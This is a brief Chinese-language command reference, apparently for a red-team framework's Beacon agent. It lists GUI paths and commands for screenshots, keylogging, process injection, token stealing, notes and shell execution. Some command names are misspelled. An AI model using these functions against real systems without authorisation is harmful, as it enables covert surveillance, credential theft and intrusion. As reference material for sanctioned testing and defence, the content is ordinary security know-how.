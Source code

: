 ```
图形：
    Explore->screenshot
命令行：
     screenshot
     screenshots pid s 定时截图
```

- Log Keystrokes模块（键盘记录）

```
图形：
    Process List->Log KeyStrokes
命令行：
    keylogger [pid]
    
    view->Log Keystrokes 查看键盘记录
```

- Inject 命令(注入新进程)

```
图形化：
    Process List->Inject
Becaon:
    inject [pid]
```

- Steat Token模块

```
图形化：
    Process List->Steal token
Becaon:
    steat_token [pid]
```

- Note模块

```
图形化：
    session->note
Becaon:
    note [text]
```
- shell

```
shell command arg
```

- run 

```
run 程序 参数
```

- execute（通常无回显）

```
execute 程序 参数
```

